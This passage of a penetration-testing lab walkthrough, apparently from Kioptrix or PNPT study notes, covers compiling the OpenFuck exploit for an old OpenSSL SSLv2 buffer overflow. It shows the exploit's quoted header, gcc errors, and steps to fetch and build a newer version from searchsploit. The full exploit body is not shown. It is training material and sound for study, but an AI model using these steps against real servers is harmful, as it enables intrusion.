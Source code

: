 ```bash

A buffer-overflow vulnerability has been reported in some versions of OpenSSL.
The issue occurs in the handling of the client key value during the negotiation of the SSLv2 protocol. A malicious client may be able to exploit this vulnerability to execute arbitrary code as the vulnerable server process or possibly to create a denial-of-service condition.

***UPDATE: A worm that likely exploits this vulnerability has been discovered propagating in the wild. Additionally, this code includes peer-to-peer and distributed denial-of-service capabilities. There have been numerous reports of intrusions in Europe. It is not yet confirmed whether this vulnerability is in OpenSSL, mod_ssl, or another component. Administrators are advised to upgrade to the most recent versions or to disable Apache, if possible, until more information is available.
*/
/*
 * VERY PRIV8 spabam SPAX@zone-h.org
 * Compile with: gcc -o OpenFuck OpenFuck.c -lcrypto
 *
 */
#include <arpa/inet.h>
#include <netinet/in.h>
#include <sys/types.h>
...
```
We can see from the output that we need to compile the code using [gcc](/computers/linux/gcc.md):
```bash
gcc -o openfuck 21671.c -lcrypto
21671.c:715:31: error: ‘SSL2_MAX_CONNECTION_ID_LENGTH’ undeclared here (not in a function); did you mean ‘SSL3_MAX_SSL_SESSION_ID_LENGTH’?
  715 |         unsigned char conn_id[SSL2_MAX_CONNECTION_ID_LENGTH];
      |                               ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~
      |                               SSL3_MAX_SSL_SESSION_ID_LENGTH
21671.c:723:9: error: unknown type name ‘RC4_KEY’
  723 |         RC4_KEY* rc4_read_key;
```
Unfortunately, this code is old and will not easily compile. So we have to either fix all of the errors ourselves, or find someone who already has.
### Find a working version
When we used `searchsploit` to find all the exploit code r/t OpenFuck, there were three versions listed, one of which was `OpenFuckv2.c` w/ an ID of `47080`. We can cp it into our kioptrix dir like so:
```bash
cp /usr/share/exploitdb/exploits/unix/remote/47080 openfuck.c
```
Looking up this version on [exploit db](https://www.exploit-db.com/exploits/47080) we can see that it isn't verified like ID `21671` was. However, if we go to the [GitLab repo](https://gitlab.com/exploit-database/exploitdb/-/blob/main/exploits/unix/remote/47080.c?ref_type=heads) we can try to verify the code ourselves. 
![](/PNPT-pics/gaining-root-1%201.png)
Then we can try compiling it with `gcc`:
```bash
gcc -o openfuck of.c -lcrypto
```